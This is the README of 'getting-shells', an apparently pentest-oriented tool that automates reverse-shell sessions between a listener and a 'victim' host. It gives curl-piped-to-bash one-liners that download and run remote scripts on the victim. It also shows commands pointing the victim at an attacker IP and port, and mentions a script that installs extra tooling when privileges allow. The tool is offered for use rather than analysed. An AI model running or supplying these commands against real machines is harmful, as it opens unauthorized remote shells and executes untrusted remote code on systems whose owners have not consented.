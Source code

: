 # getting-shells

Version 1
2021-11-23

## Purpose

Automation tool for listening and starting shells sessions.\
Both, the listener and the victim scripts check for installed resources.\
This tool simplifies the successive trials of starting a shell by selecting options from a menu.

## Quick Execution

Listener:

```
bash -c "$(curl -sS https://raw.githubusercontent.com/davift/getting-shells/main/listener.sh)"
```

![listener_screenshot](https://github.com/davift/getting-shells/blob/main/listener.png)

Victim:

```
bash -c "$(curl -sS https://raw.githubusercontent.com/davift/getting-shells/main/victim.sh)"
```

![victim_screenshot](https://github.com/davift/getting-shells/blob/main/victim.png)

## Installation

No installation is required. This scripts can run out of the box. Just clone the repo:

```
git clone https://github.com/davift/getting-shells.git && cd getting-shells
```

## Execution

```
./listener.sh 443
```

```
./victim.sh 192.168.2.1 443
```

## Additionals

There is no such thing as dependencies to run this tool. It uses the available resources in the system to establish the sessions.\
Additionally, in case you need more resources and have the necessary privileges on the system, the following script will automate the installation of more resources:

```
./additionals.sh
```

## More Information

Read more at https://blog.dftorres.ca/?p=2224.
